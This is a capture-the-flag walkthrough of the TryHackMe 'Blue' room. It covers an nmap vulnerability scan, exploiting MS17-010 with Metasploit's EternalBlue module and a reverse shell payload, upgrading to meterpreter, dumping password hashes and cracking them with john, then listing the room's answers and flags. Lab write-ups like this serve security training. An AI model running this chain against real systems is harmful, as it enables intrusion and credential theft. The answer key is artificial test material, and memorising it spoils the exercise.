






# [Blue](https://tryhackme.com/room/blue)

## Recon

Scan the machine:

`nmap -sV --script vuln 10.81.152.111`

Results:

```bash
Starting Nmap 7.80 ( https://nmap.org ) at 2025-12-24 22:56 GMT
mass_dns: warning: Unable to open /etc/resolv.conf. Try using --system-dns or specify valid servers with --dns-servers
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 10.81.152.111
Host is up (0.00041s latency).
Not shown: 991 closed ports
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
3389/tcp  open  tcpwrapped
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
| rdp-vuln-ms12-020: 
|   VULNERABLE:
|   MS12-020 Remote Desktop Protocol Denial Of Service Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0152
|     Risk factor: Medium  CVSSv2: 4.3 (MEDIUM) (AV:N/AC:M/Au:N/C:N/I:N/A:P)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to cause a denial of service.
|           
|     Disclosure date: 2012-03-13
|     References:
|       http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0152
|   
|   MS12-020 Remote Desktop Protocol Remote Code Execution Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2012-0002
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|           Remote Desktop Protocol vulnerability that could allow remote attackers to execute arbitrary code on the targeted system.
|           
|     Disclosure date: 2012-03-13
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-0002
|_      http://technet.microsoft.com/en-us/security/bulletin/ms12-020
|_ssl-ccs-injection: No reply from server (TIMEOUT)
|_sslv2-drown: 
49152/tcp open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49153/tcp open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49154/tcp open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49158/tcp open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
49160/tcp open  msrpc        Microsoft Windows RPC
|_clamav-exec: ERROR: Script execution failed (use -d to debug)
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_ACCESS_DENIED
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 138.41 seconds

```

### Questions

Q: How many ports are open with a port number under 1000?

A: `3`

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

A: `ms17-010`

## Gain Access

`msfconsole`

`use exploit/windows/smb/ms17_010_eternalblue`

`set RHOSTS 10.81.152.111`

`set payload windows/x64/shell/reverse_tcp`

`run`
### Questions

Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

A: `exploit/windows/smb/ms17_010_eternalblue`

Q: Show options and set the one required value. What is the name of this value? (All caps for submission)

A: `RHOSTS`

## Escalate

Upgrade shell to meterpreter:

`use post/multi/manage/shell_to_meterpreter`

`set SESSION 1`

`sessions -i 2`



Verify you are `SYSTEM`.

Choose a process owned by `NT AUTHORITY\SYSTEM`



Migrate to a more stable process:

`migrate 1284`
### Questions

Q: If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

A: `post/multi/manage/shell_to_meterpreter`

Q: Select this (use MODULE_PATH). Show options, what option are we required to change?

A: `SESSION`

## Cracking

Run `hashdump`:

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
```

Crack the hash using `john` using the command `john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT hash.txt `:



### Questions

Q: Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?

A: `Jon`

Q: Copy this password hash to a file and research how to crack it. What is the cracked password?

A: `alqfna22`

## Find flags!

### Questions

Q: Flag1? _This flag can be found at the system root._



A: `flag{access_the_machine}`

Q: Flag2? _This flag can be found at the location where passwords are stored within Windows._

*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.



A: `flag{sam_database_elevated_access}`

Q: flag3? _This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved._



A: `flag{admin_documents_can_be_valuable}`